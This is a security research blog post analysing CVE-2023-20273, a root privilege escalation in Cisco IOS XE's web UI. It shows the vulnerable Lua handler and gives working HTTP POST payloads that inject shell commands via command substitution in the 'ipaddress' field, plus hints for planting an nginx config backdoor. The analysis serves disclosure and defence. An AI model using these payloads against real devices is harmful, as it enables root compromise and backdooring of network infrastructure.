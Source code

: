 +++
title = "CVE-2023-20273: IOS XE root priv escalation"
url = "2023/10/cisco-root-privesc"
description = "CVE-2023-20273: IOS XE root privilege escalation"
tags = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco",
]
date = "2023-10-31 23:20:00"
categories = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco"
]
image = "cover.png"
author = "BloodyShell"
author_link = "https://twitter.com/leak_ix"
+++

On the 28th of October the exploit for `CVE-2023-20198` was released by [SECUINFRA](https://twitter.com/SI_FalconTeam/status/1718346358950711807) after being captured on one of their honeypots.

While it enables full admin control of IOS, the question still remained about the implantation of the backdoor.


<!--more-->

**Update 2023/11/01:** [Joel Land](https://twitter.com/joel_land/status/1719708750741639539) shared with us on Twitter that a different payload
is necessary on his Catalyst 8000v running version 17.4.1a. We've added a payload for v17.

## Taking step back

Contrary to IOS, IOS XE is based on a Linux Kernel.
In the following picture `CVE-2023-20198` gets you the `IOSd` layer.

![Picture](/iosxe/iosxe.png)

We're however looking for the NGINX config which is at the `IOSd sub-system` layer.

### Looking for leads

Our first lead comes from the [Talos Intelligence blog post](https://blog.talosintelligence.com/active-exploitation-of-cisco-ios-xe-software/) mentioning the following log entry:

```
%WEBUI-6-INSTALL_OPERATION_INFO: User: username, Install Operation: ADD filename
```

Our second lead comes from the diff made by [Horizon3](https://www.horizon3.ai/cisco-ios-xe-cve-2023-20198-theory-crafting/):
![Picture](/iosxe/diff.webp)
Image credit: Horizon3

### Bunch of Lua

After investigation for Lua endpoints in the Webui we found a candidate matching both leads:

In `/var/scripts/softwareMgmt.lua` we find the `installAdd` route:

```lua
if method == "POST" then
    local inp = {}
    local req_body = ngx.var.request_body
    if not utils.isNilOrEmptyString(req_body) then
        inp = cjson.decode(req_body)
    end
    local installParams = {}
    if not getInstallInProgress() then
        if lastTag == "installAdd" then
            validateSmuRequest(inp)
            local url, destinationFile = generateUrlAndDestination(inp)
            writeInstallOperationType(inp.operation_type)
            installParams.operation = "install_add"
            installParams.filename = destinationFile
            writeSmuInstallParams(installParams)
            local installMethod = inp.installMethod
            -- Install involved file download, which might take long, so it will run in the background.
            local command = 'CMD_SETSID ' .. smu_install_script .. ' --operation install_add --operation_type ' .. inp.operation_type .. ' --install_method ' .. installMethod .. ' --remote_path "' .. url .. '" --file_path "' .. destinationFile .. '" &'
            utils.runOSCommand(command)
            ngx.exit(ngx.HTTP_OK)
        endif
    endif
endif
```

As highlighted by Horizon3, the ipv6 validation method has been updated. It turns out we can pass an `ipaddress` as parameter to this endpoint which will end-up in the `url` variable.

Due to a bug in the validating conditions, the only requirement for our IPv6 is to contain 3 fields delimited by `:`.

Some other validation steps in `validateSmuRequest` and `formValidate` forbids us from using characters like `"`, `'`, ect ... in our payload.

### Command substitution to the rescue

Using command substitution allows us to bypass any form of validation.

Our final payload after creating a user and authing with `CVE-2023-20198` looks like:

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"installMethod":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

or for v17

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"mode":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

### Nginx config

Knowing all of this, one can therefore drop a file in `/usr/binos/conf/nginx-conf/cisco_service.conf` and restart the
webserver to apply the configuration.

`openssl base64 -d` can be used to bypass any limitation on character limitation.
